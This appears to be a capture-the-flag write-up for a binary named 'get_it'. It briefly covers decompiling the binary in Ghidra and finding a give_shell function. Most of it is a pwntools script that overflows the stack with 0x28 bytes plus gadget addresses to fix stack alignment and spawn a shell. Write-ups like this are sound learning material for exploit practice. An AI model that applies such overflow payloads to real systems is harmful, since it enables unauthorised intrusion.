





Decompiling with Ghidra:



We also get another function `give_shell`:



In similar way to `csaw16quals-warmup`, we calculate offset and resolve the MOVAPS issue.



Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template get_it
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'get_it')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()
payload = b'0' * 0x28  +p64(0x4005c6) +  p64(0x4005b6)
io.recvuntil(b"Do you gets it??\n")
io.send(payload)
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()

```

Hence, we get access to the terminal.


